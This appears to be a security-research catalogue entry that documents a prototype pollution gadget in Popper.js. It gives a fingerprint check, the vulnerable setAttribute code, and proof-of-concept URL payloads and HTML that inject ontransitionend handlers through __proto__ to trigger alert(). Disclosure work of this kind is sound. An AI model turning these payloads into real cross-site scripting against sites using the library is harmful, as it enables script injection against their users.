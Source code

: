 ## Popper.js

URL: https://popper.js.org/

### JS Fingerprint
```
(typeof Popper !== 'undefined')
```

### Vulnerable code fragment
https://github.com/popperjs/popper-core/blob/4800b37c5b4cabb711ac1d904664a70271487c4b/src/modifiers/applyStyles.js#L11-L31
```js
    const attributes = state.attributes[name] || {};
    ...
    Object.keys(attributes).forEach((name) => {
      const value = attributes[name];
      ...
        element.setAttribute(name, value === true ? '' : value);
```

### PoC

```
?__proto__[arrow][style]=color:red;transition:all%201s&__proto__[arrow][ontransitionend]=alert(1)
?__proto__[reference][style]=color:red;transition:all%201s&__proto__[reference][ontransitionend]=alert(2)
?__proto__[popper][style]=color:red;transition:all%201s&__proto__[popper][ontransitionend]=alert(3)
```

```html
<button id="button" aria-describedby="tooltip">Button</button>
<div id="tooltip" role="tooltip">Tooltip<div data-popper-arrow></div></div>

<script src="https://unpkg.com/@popperjs/core@2"></script>
<script>
	Object.prototype.arrow={"style":"color:red;transition:all 1s","ontransitionend":"alert(1)"}
	Object.prototype.reference={"style":"color:red;transition:all 1s","ontransitionend":"alert(2)"}
	Object.prototype.popper={"style":"color:red;transition:all 1s","ontransitionend":"alert(3)"}
</script>
<script>
  const button = document.querySelector('#button');
  const tooltip = document.querySelector('#tooltip');
  const popperInstance = Popper.createPopper(button, tooltip);
</script>
```